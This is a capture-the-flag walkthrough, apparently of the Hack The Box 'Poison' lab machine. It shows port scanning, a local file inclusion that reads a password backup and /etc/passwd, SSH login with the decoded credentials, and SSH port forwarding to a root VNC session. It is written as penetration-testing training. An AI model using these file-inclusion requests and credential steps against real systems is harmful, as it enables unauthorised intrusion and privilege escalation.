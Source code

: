 # Poison

**Machine ip:** 10.10.10.84

## Enumeration
First thing first, start port scan:
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.84 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.84`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/dc6230c3-bc5c-468e-821e-514f8e0828fd)

+ The result shows that 2 TCP ports are open:
```
Port 22: OpenSSH 7.2
Port 80: Apache httpd 2.4.29
```

+ Always start off with enumerating web server first.
+ Navigate to `http://10.10.10.84/`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1c32c4dc-e26f-4728-ba3e-1518b918c928)

+ When entering **listfiles.php** into **Scriptname** textbox, **pwdbackup.txt** looks interesting.
+ `http://10.10.10.84/browse.php?file=listfiles.php`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bb8237de-e6cc-41e0-8bef-d003d7e1ae08)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a643911b-431e-4fb0-aea8-fcce9e4e28aa)

+ Enter **pwdbackup.txt** into the textbox, and you'll see base64 encoding.
+ `http://10.10.10.84/browse.php?file=pwdbackup.txt`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/755d1b04-96a4-44ce-936f-87f6ff1d3753)

+ This means that the application is vulnerable to local file inclusion (LFI).

+ And also check whether it is vulnerable to RFI.
+ Navigate to `http://10.10.10.84/browse.php?file=phpinfo.php`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/e35caf5f-568a-40da-9480-be78f16123f4)

+ There is no direct RFI as **allow_url_include** is off. Setting allow_url_include to off in your configuration means that your PHP code on your server will not be able to include remote files.

## Gaining Access:
+ Let's crack the base64 encoding of **pwdbackup.txt**.
+ The encoded form has been base64 encoded 13 times.

+ **Firstly**, crack in bash script [here](https://github.com/h4md153v63n/Bash_Scripts/tree/main/base64-multiple-decoder).

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a60378d4-e4e3-4d17-bd7f-385c8af1a0d9)

+ **Secondly**, try [python script](https://github.com/h4md153v63n/Python_Security_Codes/tree/master/base64-multiple-decoder).

+ **Third Alternative**, try this online tool: https://base64-multiple-decode.netlify.app

![image](https://github.com/h4md153v63n/Bash_Scripts/assets/5091265/27a222f4-dc74-4795-ada0-86bda6fae3b6)

+ The final resulting string is `Charix!2#4%6&8(0`, which seems like a possible password. Or the username is `Charix` and the password is `!2#4%6&8(0`.
+ Get the users: `http://10.10.10.84/browse.php?file=/etc/passwd`
+ Discovered users: **root**, **toor** and **charix**

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/00e56373-ad34-4087-a00e-7c9efcbf5fae)

+ The username:password should be `charix`:`Charix!2#4%6&8(0`
+ It belongs to Charix. Login ssh into charix account using the discovered credentials.
+ `ssh charix@10.10.10.84`
+ Get the user shell and user flag.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bd4b9cf9-8dee-4b01-b130-9f79a2776d93)

+ **Alternatively**, try log posining method. But it didn't work for me.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/cd771766-18e8-4abb-b95f-0524b99982cf)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1bc6d871-1708-4a64-9776-58a0f7f56aa6)


## Privilege Escalation:
+ There is a **secret.zip** file on charix’s home directory.
+ Unable to unzip it on the target.
+ Transfer **secret.zip** to your kali attack vm using scp.
+ `scp -P 22 charix@10.10.10.84:/home/charix/secret.zip .` with previous password `Charix!2#4%6&8(0`
+ unzip with the same password `Charix!2#4%6&8(0`: `unzip secret.zip`
+ There's no meaningful thing!

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5ec32bc7-b10c-47d6-82ee-cab8ceaf8898)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a4245b7b-e57c-496c-bf6b-08378b235a83)

+ Lists ports: `netstat -an`
+ [5801](https://www.speedguide.net/port.php?port=5801) and [5901](https://www.speedguide.net/port.php?port=5901) are VNC ports for remote desktop access.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/fb6bd861-6308-44b7-b9f7-787ccd94b1d9)

+ List process of vnc: `ps -auwwx | grep vnc`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/87501dde-45a3-4f89-a68a-8618111014a6)

+ Since VNC is a graphical user interface software, we can’t access it through our target machine.
+ We need port forwarding.
+ Run on your kali attack machine with previous password `Charix!2#4%6&8(0`: `ssh -L 7777:127.0.0.1:5901 charix@10.10.10.84`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7b07e577-d046-4075-9d07-93c93ddf8bff)

+ Verify that the command is working:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/473a6f5a-8495-474c-b2d1-dcb9984a49cb)

+ Connect to VNC with previous transferred and decompressed **secret** file on the attack machine: `vncviewer 127.0.0.1:7777 -passwd secret`
+ Get the VNC connection with root privileges, and view the root.txt file.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/556d55dc-b294-4080-9030-42426a5bb802)

+ **Alternatively**, crack secret file using the script [1](https://github.com/jeroennijhof/vncpwd)  [2](https://github.com/trinitronx/vncpasswd.py).
+ Then login using the decrypted password: `vncviewer 127.0.0.1:7777`


# References & Alternatives:
+ https://vvmlist.github.io/#poison
+ https://medium.com/@Inching-Towards-Intelligence/htb-poison-35-100-3ac2da3ff622
+ https://0xdf.gitlab.io/2018/09/08/htb-poison.html
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/poison-writeup-w-o-metasploit#id-46e8
+ https://benheater.com/hackthebox-poison/
+ https://ethicalhacs.com/poison-hackthebox-walkthrough/


# More:
+ **vnc pentesting:** https://book.hacktricks.xyz/network-services-pentesting/pentesting-vnc
+ https://github.com/jeroennijhof/vncpwd
+ https://github.com/trinitronx/vncpasswd.py
